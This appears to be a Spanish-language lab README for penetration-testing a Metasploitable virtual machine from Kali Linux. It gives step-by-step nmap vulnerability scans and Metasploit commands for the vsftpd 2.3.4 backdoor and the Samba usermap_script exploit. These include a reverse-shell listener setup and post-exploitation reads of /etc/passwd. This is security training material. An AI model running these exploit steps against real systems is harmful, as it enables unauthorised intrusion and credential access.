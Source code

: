 **Kali Linux**
Escaneo de puertos
- `ping {ip-metasploitable}`
- `nmap --script-updatedb`
- `nmap -sV --script vuln {ip-metasploitable}`
Atacar Puerto 21
- `nmap -sS -sV -O {ip-metasploitable}`: Ver que version esta ejecutando en el puerto 21
- `msfconsole`
- `search vsftpd 2.3.4`: Buscar exploit para esa version de vsftpd
- `use exploit/unix/ftp/vsftpd_234_backdoor`
- `show options`
- `set RHOSTS {ip-metasploitable}`
- `exploit`
Verificar Ataque
- `ipconfig`
- `whoami`
- `ls`
- `cat /etc/passwd`



Maquinas Usadas en Red NAT
- [Kali](https://www.kali.org/)
- [Metasploitable](https://www.rapid7.com/products/metasploit/metasploitable/)

Ayuda
- NMAP
	- [vulnersCom/namp-vulners NSE nmap repo](https://github.com/vulnersCom/nmap-vulners)
	- [esecurityplanet - Nmap Vulnerability made easy](https://www.esecurityplanet.com/networks/nmap-vulnerability-scanning-made-easy/)
	- [Nmap Docs - NSE Usage](https://nmap.org/book/nse-usage.html)
- SMB
	- [Hackerhalt Medium - SMB Explotation](https://hackerhalt.medium.com/techniques-for-exploiting-smb-servers-64a369711ea6)
	- [HackingArticles - SMB Enumeration Guide](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/)

### A. Footprinting al servicio SAMBA
Desde la maquina Kali a Metasploit
**Pasos Kali**
- Escaneo de puertos
	- `ping {ip-metasploitable}`
	- `nmap {ip-metasploitable} -sV`
	- `nmap {ip-metasploitable} -p445,139 -sV`
### B. Creacion de Exploit para samba
Desde la maquina Kali a Metasploit
- Crear exploit
	- `use exploit/multi/samba/usermap_script`
	- `show options`
	- `set RHOST {ip-metasploitable}`
	- `set RPORT 139`
	- `set LHOST {ip-kali}`
	- `set LPORT 4444`
	- `run`
- Metodo 2: Automatico
	- `smbmap -H {ip-metasploitable}`
